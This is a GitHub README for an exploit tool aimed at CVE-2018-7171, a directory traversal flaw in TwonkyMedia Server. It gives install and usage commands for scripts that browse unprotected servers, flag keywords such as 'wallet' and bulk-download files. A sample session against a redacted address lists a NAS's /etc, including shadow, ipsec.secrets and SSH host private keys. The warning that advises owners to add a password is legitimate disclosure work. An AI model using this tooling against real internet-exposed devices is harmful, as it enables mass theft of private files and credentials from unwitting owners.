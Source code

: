 # sharingIsCaring
## Background information
This is a GitHub repository keeping all relevant information about CVE-2018-7171.

CVE-2018-7171 represents a directory/file traversal vulnerability in TwonkyMedia Server 
version 7.0.11-8.5. Exploiting this vulnerability allows an attacker to list all files
located on the device that is running the TwonkyMedia Server. Furthermore, an attacker is
able to download all media files (Pictures, Videos, Music) from a device after exploiting
this vulnerability. To exploit this vulnerability TwonkyMedia Server must not be protected 
by a password (which is the default setup).

Since a huge amount, around 24'000 TwonkyMedia Server instances are reachable via the internet
the researcher decided to publish this vulnerability.

Maybe you don't know that TwonkyMedia Server is running on your device nor you know that it's
exposed in the internet. This is due to the fact that TwonkyMedia Server is pre installed on
many NAS devices. If your router configuration automatically forwards the port (e.g. 9000) 
because it's a DLNA share your probably owned.

If your devices are affected by the vulnerability, expect all files on your device as no longer 
private.

Please make sure to switch off or protect your TwonkyMedia Server with a password, because no
fix for this vulnerability is available. 

## About

<b>twonky.py</b>, can be used to comfortably browse devices running TwonkyMedia Server. 
Also, a feature is implemented which checks files and directory names against a built-in 
extensible wordlist for keywords e.g. wallet. Furthermore, interesting system information
are requested and presented to the user.

<b>downloadFiles.py</b>, can be used to perform bulk downloads of TwonkyMedia Server indexed directories.

## Installation
```
$ git clone https://github.com/mechanico/sharingIsCaring.git

$ cd sharingIsCaring

$ sudo pip install -r requirements.txt
```
You're ready to go!

## Usage 

```
$ twonky.py [IP Adress] [port]
https://www.shodan.io/host/[IP Adress]
*** Port [port] opened ***
Run Twonky browser on port [port] [Y, N]? [Y] y
*** Get Serverdetails from Twonky ***
Server Name: TwonkyMedia [piranhacloud]
Serverplatform: qnap_marvell_6281::qnap-ts219-oem
Pictures shared: 34743
Videos shared: 1804
Pictures shared: 235592
Videos shared: 7348
Twonky Version: 8.2.1
Build date: 02/08/2016 (mm/dd/yyyy)
*** 'contentbase' path set to '/'' ***
path nr: [enter directory number] [delimiter "/"]
------------------------------
```

## Explanation of output
* The "path nr" is e.g. 001, 002, ...
* To browse through directories use "/" as delimiter, e.g. 005/091

* Directories are marked with "Dir"
* Directories are colored "GREEN"

* Files are marked with "Fil"
* Files are not colored

* If a Keyword is discovered the line will be colored "RED"

## Example usage
```
$ python twonky.py xxx.xxx.xxx.xxx 9000
https://www.shodan.io/host/xxx.xxx.xxx.xxx
*** Port 9000 opened ***
Run Twonky browser on port 9000 [Y, N]? [Y] y
*** Get Serverdetails from Twonky ***
Server Name: TwonkyMedia [piranhacloud]
Serverplatform: qnap_marvell_6281::qnap-ts219-oem
Pictures shared: 34743
Videos shared: 1804
Pictures shared: 235592
Videos shared: 7348
Twonky Version: 8.2.1
Build date: 02/08/2016 (mm/dd/yyyy)
*** 'contentbase' path set to '/'' ***
path nr:
------------------------------
001 Dir /
002 Dir /bin
003 Fil /DEBUG
004 Dir /dev
005 Dir /etc
006 Dir /home
007 Dir /IPSEC
008 Dir /lib
009 Fil /linuxrc
010 Dir /mnt
011 Dir /opt
012 Fil /php.ini
013 Dir /proc
014 Dir /root
015 Dir /rpc
016 Dir /sbin
017 Dir /share
018 Dir /sys
019 Dir /tmp
020 Dir /usr
021 Dir /var
------------------------------
path nr: 005
------------------------------
001 Fil .qsys.log
002 Dir acpi
003 Fil apache-sys-proxy-ssl.conf
004 Fil apache-sys-proxy.conf
005 Dir apcupsd
006 Fil app_proxy.conf
007 Dir avahi
008 Fil bandwidth_record.conf
009 Fil blkid.tab
010 Fil blkid.tab.old
011 Dir bluetooth
012 Fil burntest.sym
013 Dir config
014 Fil daemon_mgr.conf
015 Dir dbus-1
016 Fil default-tz-list.json
017 Dir default_config
018 Dir dhcpc
019 Fil filemanager.conf
020 Fil filesystems
021 Fil fstab
022 Fil group
023 Fil gssapi_mech.conf
024 Fil hostname
025 Fil hosts
026 Dir hotplug
027 Dir hotplug.d
028 Fil idmapd.conf
029 Dir init.d
030 Fil inittab
031 Fil inittab.disable
032 Fil inittab.enable
033 Fil inittab.enable.tolapai
034 Fil inputrc
035 Fil ipsec.conf
036 Dir ipsec.d
037 Fil ipsec.secrets
038 Dir iscsi
039 Fil issue
040 Fil krb5.keytab
041 Fil krb5_tmpl.conf
042 Fil ld.so.cache
043 Fil ld.so.conf
044 Dir linuxigd
045 Fil localtime
046 Fil login.defs
047 Dir logs
048 Dir lunporter
049 Fil mdadm.conf
050 Fil model.conf
051 Fil mt-daapd.conf
052 Fil mtab
053 Fil my.cnf
054 Fil netconfig
055 Dir network
056 Fil nsswitch.conf
057 Fil ntp.conf
058 Dir openldap
059 Fil opentftpd.ini
060 Dir openvpn
061 Dir pam.d
062 Fil passwd
063 Fil php-fpm-sys-proxy.conf
064 Fil platform.conf
065 Dir ppp
066 Fil printcap
067 Fil profile
068 Fil protocols
069 Fil qbox-mariadb.cnf
070 Dir qmonitor
071 Fil qos.ui.cp.conf
072 Fil qos.ui.sm.conf
073 Fil qpkg_run_status
074 Dir qsync
075 Dir raddb
076 Fil raidtab
077 Fil random-seed
078 Dir rcK.d
079 Dir rcK_init.d
080 Dir rcS.d
081 Dir rcS_init.d
082 Fil resolv.conf
083 Fil rsyncd.conf
084 Fil samba4_flag
085 Fil securetty
086 Fil service.home.lst
087 Fil service.smb.lst
088 Fil services
089 Fil shadow
090 Fil smb.conf
091 Dir ssh
092 Dir ssl
093 Fil storage.conf
094 Fil strongswan.conf
095 Dir strongswan.d
096 Dir stunnel
097 Dir swanctl
098 Fil thttpd.conf
099 Fil TZ
100 Fil tzlist
101 Dir udev
102 Fil updatedb.conf
103 Fil upnpd.conf
104 Dir xl2tpd
105 Fil yp.conf
106 Dir zoneinfo
107 Dir zoneinfo.src
------------------------------
path nr: 005/091
------------------------------
001 Fil ssh_host_dsa_key
002 Fil ssh_host_dsa_key.pub
003 Fil ssh_host_rsa_key
004 Fil ssh_host_rsa_key.pub
005 Fil sshd_config
------------------------------
path nr:
```
